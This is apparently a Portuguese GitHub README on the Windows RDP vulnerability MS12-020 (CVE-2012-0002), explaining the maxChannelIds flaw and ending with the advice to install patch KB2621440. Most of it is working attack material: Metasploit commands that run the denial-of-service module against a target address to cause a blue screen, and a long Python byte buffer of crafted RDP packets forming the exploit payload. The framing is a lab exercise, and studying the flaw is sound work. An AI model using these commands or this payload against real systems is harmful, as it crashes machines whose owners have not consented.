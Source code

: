 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Metasploit 

```console
root@kali# msfconsole

msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set RHOSTS 192.168.X.X
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
```

A máquina Windows será paralisada, causando a famosa "TELA AZUL DA MORTE"

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```python
import socket
import sys


buf=""
buf+="\x03\x00\x00\x13" # TPKT, Version 3, lenght 19
buf+="\x0e\xe0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00" # ITU-T Rec X.224
buf+="\x03\x00\x01\xd6" # TPKT, Version 3, lenght 470
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x7f\x65\x82\x01\x94\x04" #MULTIPOINT-COMMUNICATION-SERVICE T.125

buf+="\x01\x01\x04\x01\x01\x01\x01\xff" 
buf+="\x30\x19\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x02\x02\x04"
buf+="\x00\x00\x00\x00\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\xff\xff\x02\x04\x00\x00\x00\x02"
buf+="\x30\x19\x02\x04\x00\x00\x00\x01"
buf+="\x02\x04\x00\x00\x00\x01\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\x04\x20\x02\x04\x00\x00\x00\x02"
buf+="\x30\x1c\x02\x02\xff\xff\x02\x02"
buf+="\xfc\x17\x02\x02\xff\xff\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x00\x02\x04\x00\x00\x00\x01"
buf+="\x02\x02\xff\xff\x02\x04\x00\x00"
buf+="\x00\x02\x04\x82\x01\x33\x00\x05"
buf+="\x00\x14\x7c\x00\x01\x81\x2a\x00"
buf+="\x08\x00\x10\x00\x01\xc0\x00\x44"
buf+="\x75\x63\x61\x81\x1c\x01\xc0\xd8"
buf+="\x00\x04\x00\x08\x00\x80\x02\xe0"
buf+="\x01\x01\xca\x03\xaa\x09\x04\x00"
buf+="\x00\xce\x0e\x00\x00\x48\x00\x4f"
buf+="\x00\x53\x00\x54\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\x00\x00"
buf+="\x00\x00\x00\x00\x00\x0c\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x01\xca\x01\x00\x00\x00\x00"
buf+="\x00\x10\x00\x07\x00\x01\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\xc0\x0c"
buf+="\x00\x0d\x00\x00\x00\x00\x00\x00"
buf+="\x00\x02\xc0\x0c\x00\x1b\x00\x00"
buf+="\x00\x00\x00\x00\x00\x03\xc0\x2c"
buf+="\x00\x03\x00\x00\x00\x72\x64\x70"
buf+="\x64\x72\x00\x00\x00\x00\x00\x80"
buf+="\x80\x63\x6c\x69\x70\x72\x64\x72"
buf+="\x00\x00\x00\xa0\xc0\x72\x64\x70"
buf+="\x73\x6e\x64\x00\x00\x00\x00\x00"
buf+="\xc0"

buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80"  # ITU-T Rec X.224
buf+="\x04\x01\x00\x01\x00" # MULTIPOINT-COMMUNICATION-SERVICE T.125
buf+="\x03\x00\x00\x08" #TPKT, Version 3, Length 8
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x28" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xef" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xeb" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xec"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c"  # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xed"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xee"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0b" # TPKT, Version 3, Lenght 12
buf+="\x06\xd0\x00\x00\x12\x34\x00"  #ITU-T Rec X.224

```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha esta vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.

